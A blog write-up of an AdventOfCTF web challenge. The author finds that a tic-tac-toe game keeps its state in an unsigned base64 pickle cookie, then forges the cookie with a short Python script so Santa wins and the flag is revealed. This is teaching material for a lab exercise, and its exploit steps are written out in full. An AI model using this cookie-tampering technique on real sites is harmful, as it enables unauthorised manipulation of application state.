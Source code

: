 +++
author = "Maik de Kruif"
title = "The Game"
subtitle = "Challenge 20 - AdventOfCTF"
date = 2021-02-26T00:11:35+01:00
description = "A writeup for challenge 20 of AdventOfCTF."
cover = "img/writeups/adventofctf/2020/c1f93b6ee2e1cd25ea02f9a78c364b12.png"
tags = [
    "AdventOfCTF",
    "challenge",
    "ctf",
    "hacking",
    "writeup",
    "web",
    "python",
    "serialization",
]
categories = [
    "ctf",
    "writeups",
    "hacking",
]
+++

- Points: 2000

## Description

To pass the time until Christmas the elves challenge Santa to a game of tic-tac-toe. Santa plays X, can you make him win?

Visit <https://20.adventofctf.com> to start the challenge.

## Recon

When looking around on the page, we can see a tic tac toe board with two links in it. These links direct to `/play/y/x` and place an `O` on the board. After placing it, `O` wins.

If we take a look at the source, we also find a bit of javascript:

```js
function send() {
  let emoji = $("#emoji")[0].value;
  if (emoji.length > 0) {
    $.post("/", { emoji: emoji }, function (data) {
      $("#msg")[0].innerHTML = "<b>" + data + "</b>";
    });
  }
}
```

This code doesn't seem to be used though and I don't see what it would be used for so we'll ignore it for now.

Lastly, we can check the cookies on the website. Here we can find the `game` cookie. It looks like it's some `base64` encoded data.

```text
game=gAN9cQAoWAUAAABib2FyZHEBXXECKF1xAyhYAQAAAE9xBGgETmVdcQUoaARYAQAAAFhxBmgGZV1xByhOaAZoBmVlWAQAAAB0dXJucQhoBFgIAAAAZmluaXNoZWRxCYlYBgAAAHdpbm5lcnEKTlgEAAAAc2FuZXELiHUu
```

## Finding the vulnerability

We will start by having a look at the `game` cookie. If we base64 decode it we do see some information about a board, but its not plain text.

```bash
echo -n "gAN9cQAoWAUAAABib2FyZHEBXXECKF1xAyhYAQAAAE9xBGgETmVdcQUoaARYAQAAAFhxBmgGZV1xByhOaAZoBmVlWAQAAAB0dXJucQhoBFgIAAAAZmluaXNoZWRxCYlYBgAAAHdpbm5lcnEKTlgEAAAAc2FuZXELiHUu" | base64 -d
```

```text
�}q(Xboardq]q(]q(XOqhNe]q(hXXqhe]q(NhheeXturnhfinishedq	�Xwinnerq
NXsaneq
       �u.⏎
```

By the looks of it, it might be a serialized object but we don't know where it came from.

To find out what the backend framework of the server is, we can look at the `Server` header in the http response. This is not always filled in with useful information, but this time it was.

```text
Server: Werkzeug/1.0.1 Python/3.7.10
```

Here we can see the website uses Python for the backend. This narrows the amount of possible serialization libraries down a lot. A common library used for this in Python is Pickle.

To test whether the cookie is encoded pickle data, we can use the pickle's `loads` function to import the data from a string:

```text
>>> import pickle
>>> import base64
>>> pickle.loads(base64.b64decode("gAN9cQAoWAUAAABib2FyZHEBXXECKF1xAyhYAQAAAE9xBGgETmVdcQUoaARYAQAAAFhxBmgGZV1xByhOaAZoBmVlWAQAAAB0dXJucQhoBFgIAAAAZmluaXNoZWRxCYlYBgAAAHdpbm5lcnEKTlgEAAAAc2FuZXELiHUu"))
{'board': [['O', 'O', None], ['O', 'X', 'X'], [None, 'X', 'X']], 'turn': 'O', 'finished': False, 'winner': '', 'sane': True}
```

Yes! It's using pickle and we can now try to alter the board.

## Exploit

To alter the board, we can write a little Python script like the following. You can't just put three `X` in a row as the backend checks the game state. To get around this, we can just place a few `O` on the board.

```py
import base64
import pickle

board_b64 = "gAN9cQAoWAUAAABib2FyZHEBXXECKF1xAyhYAQAAAE9xBGgETmVdcQUoaARYAQAAAFhxBmgGZV1xByhOaAZoBmVlWAQAAAB0dXJucQhoBFgIAAAAZmluaXNoZWRxCYlYBgAAAHdpbm5lcnEKTlgEAAAAc2FuZXELiHUu"

data = pickle.loads(base64.b64decode(board_b64))

data["board"] = [['X', 'X', 'X'], ['O', None, None], [None, None, 'O']]
data["winner"] = 'X'
data["turn"] = 'O'

print(base64.b64encode(pickle.dumps(data)))
```

```text
gASVVwAAAAAAAAB9lCiMBWJvYXJklF2UKF2UKIwBWJRoBGgEZV2UKIwBT5ROaAZlXZQoTk5OZWWMBHR1cm6UaAaMCGZpbmlzaGVklImMBndpbm5lcpRoBIwEc2FuZZSIdS4=
```

We can then replace the `game` cookie with this string and reload the page.

## Solution

We got the flag! It is `NOVI{p1ckle_r1ck}`.
